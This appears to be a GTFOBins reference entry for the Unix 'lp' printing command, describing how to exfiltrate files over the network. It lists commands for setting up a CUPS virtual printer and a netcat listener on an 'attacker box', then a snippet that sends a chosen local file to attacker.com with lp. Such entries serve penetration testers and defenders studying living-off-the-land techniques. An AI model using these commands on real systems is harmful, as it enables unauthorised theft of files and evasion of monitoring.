 # GTFOBin: lp

## File upload

It can exfiltrate files on the network.

To collect the file run the following on the attacker box (this requires `cups` to be installed):

1. `lpadmin -p printer -v socket://localhost -E` to create a virtual printer;
2. `lpadmin -d printer` to set the new printer as default;
3. `cupsctl --remote-any` to enable printing from the Internet;
4. `nc -lkp 9100` to receive the file.

Send a local file to a CUPS server.

```
LFILE=file_to_send
RHOST=attacker.com
lp $LFILE -h $RHOST
```